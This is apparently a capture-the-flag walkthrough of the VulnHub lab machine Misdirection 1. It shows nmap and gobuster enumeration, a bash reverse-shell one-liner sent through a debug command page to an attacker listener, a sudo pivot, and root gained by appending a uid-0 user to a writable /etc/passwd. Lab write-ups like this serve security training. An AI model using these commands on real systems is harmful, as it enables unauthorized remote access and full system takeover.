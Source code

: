```yaml
---
title: VulnHub - Misdirection 1
author: s4rgaz
date: 2021-07-13 20:23:15 +0800
categories: [Walkthrough, VulnHub]
tags: [vulnhub, command injection]
---
```


**Description:** A linux machine hosting a web backdoor which allows the execution of system commands. Inappropriate permissions granted on sensitive files allowed to gain root privileges.

**Author:** FalconSpy

**Operating System:** Linux

**Download:** [https://www.vulnhub.com/entry/misdirection-1,371/](https://www.vulnhub.com/entry/misdirection-1,371/)

## Information Gathering
### Host Discovery

We enumerate the local network to find the target machine.

```console
root@kali:~$ nmap -sn -n 192.168.179.1/24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-13 19:32 -05
Nmap scan report for 192.168.179.141
Host is up (0.00078s latency).
MAC Address: 00:0C:29:10:9B:9B (VMware)
Nmap scan report for 192.168.179.254
Host is up (0.00017s latency).
MAC Address: 00:50:56:E9:4A:73 (VMware)
Nmap scan report for 192.168.179.1
Host is up.
```

### Port Scanning

Located the target, I proceed to perform a TCP port scan for all ports with nmap.

```console
root@kali:~$ nmap -T4 -p1-65535 -vv -n 192.168.179.141 -oG tcp-all-ports.txt
...
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 64
80/tcp   open  http       syn-ack ttl 64
3306/tcp open  mysql      syn-ack ttl 64
8080/tcp open  http-proxy syn-ack ttl 64
MAC Address: 00:0C:29:10:9B:9B (VMware)
...
```

### Service Enumeration

Then I do the service enumeration to the open TCP ports.

```console
root@kali:~$ nmap -sV -sC -p22,80,3306,8080 -vv -n 192.168.179.141 -oN service-enum.txt
...
PORT     STATE SERVICE REASON         VERSION                                                                                                                      
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                 
| ssh-hostkey:                                                                                                                                                     
|   2048 ec:bb:44:ee:f3:33:af:9f:a5:ce:b5:77:61:45:e4:36 (RSA)                                                                                                     
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkS5yl+Dpb7vsMGbzAHXBYrVSUNTh4kYGh8zajM3ZujG0XHLvgkW7xJ6F/meai9IrCB5gTq7+tTsn+fqNk0cAZugz4h+vwm5ekXe5szPPHNxNUlKuNAQ0Rch9k7
jT/2pWjtsE5iF6yFlh1UA2vBKqrTWVU5vrGWswdFRMWICKWiFXwl1Tv93STPsKHYoVbq74v2y1mVOLn+3JNMmRNCBFqh8Z2x+1DTep0YY8vIV325iRK5ROKCJAPeyX33uoxQ/cYrdPIS+Whs9QX0C+W343Hf2Ypq93h
3/g3NNm54LvZdE6X2vTUcUHGdvK2gU+dWQOiDhCpMDv3wiEAwGlf87P5                                                                                                           
|   256 67:7b:cb:4e:95:1b:78:08:8d:2a:b1:47:04:8d:62:87 (ECDSA)                                                                                                    
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM+YEivOAqHPDlFWduSuOjAjuJtfC9v/KW2uYB85gxQuibGJQZhFPcxwPEUf7UvQ/a5fr/keKYF2Kdld6gO44jY= 
|   256 59:04:1d:25:11:6d:89:a3:6c:6d:e4:e3:d2:3c:da:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFHxbfiqinvu3cV7JoKrOF3w64zk+0N0h+/2nu+Z20Mk
80/tcp   open  http    syn-ack ttl 64 Rocket httpd 1.2.6 (Python 2.7.15rc1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Rocket 1.2.6 Python/2.7.15rc1
|_http-title: 502 Proxy Error
3306/tcp open  mysql   syn-ack ttl 64 MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
8080/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:10:9B:9B (VMware)
...
```

### Web Enumeration

Poked around the web page on port 80 I didn't found nothing interesting.

![](/assets/images/misdirection/screenshot-1.png)

So I'm heading to enumerate the web page on port 8080, but at a  glance I can't find anything, so I run gobuster to find hidden web directories and files.

![](/assets/images/misdirection/screenshot-2.png)

```console
root@kali:~$ gobuster dir -u http://192.168.179.141:8080 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html,txt,sql -e
...
http://192.168.179.141:8080/index.html           (Status: 200) [Size: 10918]
http://192.168.179.141:8080/images               (Status: 301) [Size: 326] [--> http://192.168.179.141:8080/images/]
http://192.168.179.141:8080/help                 (Status: 301) [Size: 324] [--> http://192.168.179.141:8080/help/]  
http://192.168.179.141:8080/scripts              (Status: 301) [Size: 327] [--> http://192.168.179.141:8080/scripts/]
http://192.168.179.141:8080/css                  (Status: 301) [Size: 323] [--> http://192.168.179.141:8080/css/]    
http://192.168.179.141:8080/wordpress            (Status: 301) [Size: 329] [--> http://192.168.179.141:8080/wordpress/]
http://192.168.179.141:8080/development          (Status: 301) [Size: 331] [--> http://192.168.179.141:8080/development/]
http://192.168.179.141:8080/manual               (Status: 301) [Size: 326] [--> http://192.168.179.141:8080/manual/]     
http://192.168.179.141:8080/js                   (Status: 301) [Size: 322] [--> http://192.168.179.141:8080/js/]         
http://192.168.179.141:8080/shell                (Status: 301) [Size: 325] [--> http://192.168.179.141:8080/shell/]      
http://192.168.179.141:8080/debug                (Status: 301) [Size: 325] [--> http://192.168.179.141:8080/debug/]
...
```

Checking the **debug** directorie I find a script that allows run system commands.

![](/assets/images/misdirection/screenshot-3.png)

## Exploitation
### Command Injection
**Getting a reverse shell**

Then we first set up a netcat listener and execute the the following instruction:

```console
bash -c "/bin/bash -i >& /dev/tcp/192.168.179.1/443 0>&1"
```

![](/assets/images/misdirection/screenshot-4.png)

And we get a reverse shell, after enumerating the sudo permissions I see that the bash command is possible execute it without password as the brexit user.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.141] 34318
bash: cannot set terminal process group (1047): Inappropriate ioctl for device
bash: no job control in this shell
www-data@misdirection:/var/www/html/debug$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@misdirection:/var/www/html/debug$ sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
```

After to execute the bash command as the brexit user, we get a bash session and spawn a TTY shell. 

```console
www-data@misdirection:/var/www/html/debug$ sudo -u brexit /bin/bash
python -c 'import pty;pty.spawn("/bin/bash")'
brexit@misdirection:~$ uname -a
Linux misdirection 4.15.0-50-generic #54-Ubuntu SMP Mon May 6 18:46:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

## Privilege Escalation
### Insecure file permissions

Enumerating the system I managed to identify that the **passwd** file has write permissions for the brexit user.

```console
brexit@misdirection:/tmp$ ls -la /etc/passwd
-rwxrwxr-- 1 root brexit 1617 Jun  1  2019 /etc/passwd
```

In our attacking machine we generate a password hash with openssl.

```console
root@kali:~$ openssl passwd -1 get.r00t
$1$7Stc2cvP$1EtnNyONHtdDuHw2C9rNb1
```

Then we redirect our s4rgas user with the uid and gid set to 0 to the **passwd** file, and we switch to the new user with root privileges.

```console
brexit@misdirection:/tmp$ echo 's4rgaz:$1$7Stc2cvP$1EtnNyONHtdDuHw2C9rNb1:0:0:root:/root:/bin/bash' >> /etc/passwd
brexit@misdirection:/tmp$ su s4rgaz
Password: 
root@misdirection:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```
